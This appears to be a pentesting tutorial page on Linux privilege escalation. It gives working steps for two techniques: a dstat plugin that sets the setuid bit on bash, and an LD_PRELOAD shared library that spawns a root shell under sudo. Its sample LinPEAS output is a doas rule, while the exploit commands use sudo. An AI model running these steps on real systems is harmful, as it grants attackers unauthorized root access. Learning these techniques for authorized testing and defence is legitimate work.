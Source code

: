 ```yaml
---
id: privilige-escalation
title: 🔒 Privilege escalation
---
```


# Privilege escalation

### dstat

If dstat can be run as root it is possible to write a new plugin to make some actions like the root inside the system.

Using LinPeas the output should be something like this:

```
permit nopass <user> as root cmd /usr/bin/dstat
```

<p align="center">
    <img width="70%" src={require("./assets/dstat.png").default}></img>
</p>

New plugins can be written inside the folder `/usr/local/share/dstat`

The filename format should be `dstat_<plugin_name>.py` like `dstat_hack.py`

```bash
vi /usr/local/share/dstat/dstat_hack.py
```

This could be the content of the file

```py
import os
os.system('chmod +s /usr/bin/bash')
```

This code once executed activates the setuid bit of bash making it runnable as root.

Now, it is possible to run the custom plugin and become root.

```
sudo /usr/bin/dstat --hack
bash -p
```

### LD_PRELOAD trick

You can use this trick if the user has access to a binary or a script with sudo privilege.

Also there must be no specific override of the LD_PRELOAD variable. You can check it by using the command `sudo -l`.

```c title="shell.c"
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    execl("/bin/sh", "-sh", 0);
}
```

To compile use this command:

```bash
gcc -shared -fPIC -nostartfiles -o shell.so shell.c
```

Finally, run the file with privileges prepended with the new library

```bash
sudo LD_PRELOAD=/tmp/shell.so <PATH>
```
